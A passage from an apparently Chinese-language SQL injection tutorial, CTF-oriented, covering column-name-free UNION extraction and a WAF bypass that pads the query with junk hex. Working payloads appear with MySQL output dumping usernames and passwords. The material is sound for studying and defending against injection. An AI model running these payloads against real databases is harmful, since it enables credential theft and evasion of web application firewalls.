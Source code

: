 
无列名sql注入语句如下所示。

```mysql
mysql> SELECT * FROM users WHERE id='1' UNION SELECT 1,2,`33` FROM (SELECT 11,22,33 UNION SELECT * FROM users)x;
+----+----------+-----------------------------------------------+
| Id | username | password                                      |
+----+----------+-----------------------------------------------+
|  1 | admin    | ctfshow{2a0dca32-e5de-4f6c-8a85-2d325d89dbf8} |
|  1 | 2        | 33                                            |
|  1 | 2        | ctfshow{2a0dca32-e5de-4f6c-8a85-2d325d89dbf8} |
|  1 | 2        | passw@rd                                      |
|  1 | 2        | passw0rd                                      |
+----+----------+-----------------------------------------------+
```

注意，最外层select的列名必须和内层select的自定义列名一致，否则报错。因为如下表所示，把`select 11,22,33`放在`union select * from users`之前，最终查询结果表的3个列名为我们自定义的列名11、22、33。

```
mysql> select 11,22,33 union select * from users;
+----+-------+-----------------------------------------------+
| 11 | 22    | 33                                            |
+----+-------+-----------------------------------------------+
| 11 | 22    | 33                                            |
|  1 | admin | ctfshow{2a0dca32-e5de-4f6c-8a85-2d325d89dbf8} |
|  2 | user1 | passw@rd                                      |
|  3 | user2 | passw0rd                                      |
+----+-------+-----------------------------------------------+

mysql> select * from users union select 11,22,33;
+----+----------+-----------------------------------------------+
| Id | username | password                                      |
+----+----------+-----------------------------------------------+
|  1 | admin    | ctfshow{2a0dca32-e5de-4f6c-8a85-2d325d89dbf8} |
|  2 | user1    | passw@rd                                      |
|  3 | user2    | passw0rd                                      |
| 11 | 22       | 33                                            |
+----+----------+-----------------------------------------------+
```



### 5.9 绕过WAF-填充大量字符

联合注入时可以select大量垃圾字符，绕过WAF的检测。注入id=1  and 1=0 union select，结果只会显示union之后select的结果，因为第一个select被注入了and 0，不会显示结果。

```mysql
select * from users where id=1 and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAA)union select 1,2,user()
```

```
mysql> select * from test where id=1 and (select 1)=(select 0xAAAAAAAAAAAAAAAAAAAAAA)union select 1,2,user();
+----+----------+----------------+
| Id | username | password       |
+----+----------+----------------+
|  1 | 2        | root@localhost |
+----+----------+----------------+
1 row in set, 1 warning (0.00 sec)
```
